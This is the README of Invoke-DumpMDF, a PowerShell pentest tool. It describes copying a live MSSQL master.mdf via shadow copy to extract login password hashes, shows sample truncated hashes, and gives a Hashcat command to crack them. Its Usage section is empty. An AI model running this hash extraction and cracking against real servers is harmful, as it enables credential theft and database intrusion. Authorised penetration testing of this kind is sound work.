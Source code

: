 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

Invoke-DumpMDF requires diskshadow to be installed (Default on Windows Server). This is to allow the running master.mdf database to be copied into a new fil before extraction. After completion, the script will cleanup after itself. 

The resulting hashes can be cracked with Hashcat.

## Usage
```powershell
```
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best54.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c
